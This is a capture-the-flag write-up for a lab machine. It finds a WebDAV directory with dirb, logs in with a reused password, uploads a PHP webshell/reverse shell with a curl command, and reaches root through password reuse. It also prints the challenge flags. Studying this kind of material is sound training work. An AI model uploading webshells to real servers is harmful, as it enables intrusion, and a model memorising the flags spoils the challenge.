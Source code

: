 # Checking the site

Visiting the site has the default Ubuntu Apache site.

![](screenshots/1.png)

# Webdav

Dirb or any similar enumeration software can be used to find the `webdav` directory.

```bash
dirb http://10.10.3.10:8081
```

![](screenshots/2.png)

Unfortunatelly, it is asking for credentials. Our favourite mythical creatures can not help here with the usual wordlists. Apollo on the other hand can log in with his credentials: `admin:apollo13`. See [Apollo challenge](../Pentest_Apollo/) details.

The directory listing is turned on, and the flag is here.

![](screenshots/3.png)

# Flag local
{HCSC}!hanN@:l0CAL-FlaG

# Upload

As the `webdav` name suggests, it is a [WebDAV](https://en.wikipedia.org/wiki/WebDAV) endpoint. The uploaded `php` files can be executed as well.

Our favorite reverse shell can be dropped, and deleted later.

```bash
curl -v --digest -u apollo:apollo13 -T ../webshell.php http://10.10.3.10:8081/webdav/
#curl -v --digest -u apollo:apollo13 -X DELETE http://10.10.3.10:8081/webdav/webshell.php
```

# Privesc

Of course, the `root` user has the same `apollo13` password, so it is reused everywhere.

![](screenshots/4.png)


# Flag root
{HCSC}_r0otFl4g:4:H@nnA